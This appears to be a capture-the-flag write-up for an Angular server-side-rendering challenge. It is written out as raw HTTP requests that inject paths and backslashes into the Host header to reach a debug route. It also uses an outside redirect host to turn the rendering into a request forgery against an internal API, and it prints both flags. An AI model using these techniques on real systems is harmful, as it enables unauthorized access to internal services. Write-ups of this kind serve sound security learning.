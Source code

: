 Angular is using Host header for routing, so:

## FLAG
### without Nginx
```
GET / HTTP/1.1
Host: 127.0.0.1/debug/answer
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```
```
GET / HTTP/1.1
Host: 127.0.0.1\debug\answer
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```
```
GET /answer HTTP/1.1
Host: 127.0.0.1/debug
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```
```
GET /answer HTTP/1.1
Host: /debug
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```
```
GET /answer HTTP/1.1
Host: \debug
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```
### with Nginx
```
GET / HTTP/1.1
Host: 127.0.0.1\debug\answer
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```
```
GET /answer HTTP/1.1
Host: \debug
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

```You want this? TWCTF{ky0-wa-dare-n0-donna-yume-ni?kurukuru-mewkledreamy!}```

## FLAG2
302 redirect on alskdjfhkb1n2bn12d.free.beeceptor.com/api/answer to "Location" http://127.0.0.1:80/api/true-answer

We have /a SSR route, which will make a request (/api/answer) and use the respose in rendered page
```
GET / HTTP/1.1
Host: alskdjfhkb1n2bn12d.free.beeceptor.com\a?
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```
this.http.get('/api/answer') will use host from Host header and use the value in the server-rendered page

```hello admin, this is true answer: TWCTF{you-have-to-eat-tomato-yume-chan!}```